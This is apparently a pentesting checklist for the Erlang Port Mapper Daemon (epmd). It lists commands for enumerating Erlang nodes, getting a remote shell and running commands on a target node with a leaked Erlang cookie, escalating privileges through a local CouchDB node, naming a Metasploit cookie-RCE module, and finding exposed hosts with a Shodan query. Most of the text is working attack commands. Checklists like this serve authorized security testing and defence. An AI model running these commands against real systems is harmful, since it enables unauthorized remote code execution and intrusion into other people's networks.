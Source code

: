 # Erlang Port Mapper Daemon (epmd) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating epmd (port 4369), I realistically expect to find:

- [ ] Erlang node names and their listening ports
- [ ] Internal service names (RabbitMQ, CouchDB)
- [ ] Exposure of management or cluster ports for further attacks
- [ ] Erlang cookie value if leaked (leading to RCE)
- [ ] No direct file access, but pivot opportunities inside internal networks

---

## ✅ epmd Pentest Checklist

- [ ] **Banner Grabbing**
  - Quickly test if the service responds.
    ```
    echo -n -e "\x00\x01\x6e" | nc -vn <IP> 4369
    ```

- [ ] **Nmap Scan**
  - Run NSE script to list node names and ports.
    ```
    nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>
    ```

- [ ] **Manual Node Enumeration with Erlang**
  - Get list of registered nodes.
    ```erlang
    erl
    1> net_adm:names('<IP>').
    ```

---

## ✅ Erlang Cookie Attack (If Cookie Is Leaked)

- [ ] **Connect with Cookie**
  - Start remote shell to the target node.
    ```bash
    erl -setcookie <COOKIE> -name attacker@<YourIP> -remsh target@<TargetIP>
    ```
  - Test command execution.
    ```erlang
    os:cmd("id").
    ```

---

## ✅ Local Privilege Escalation (Example with CouchDB)

- [ ] **Connect Locally with Cookie**
    ```bash
    HOME=/ erl -sname shell -setcookie <COOKIE>
    ```
  - Exploit vulnerable CouchDB node.
    ```erlang
    (shell@localhost)1> rpc:call('couchdb@localhost', os, cmd, ["whoami"]).
    "couchdb\n"
    ```

---

## ✅ Metasploit Modules

- **Check or Exploit Cookie RCE**
    ```
    use exploit/multi/misc/erlang_cookie_rce
    ```

---

## ✅ Shodan Search

- [ ] Discover exposed EPMD nodes on the Internet.
    ```
    port:4369 "at port"
    ```

---
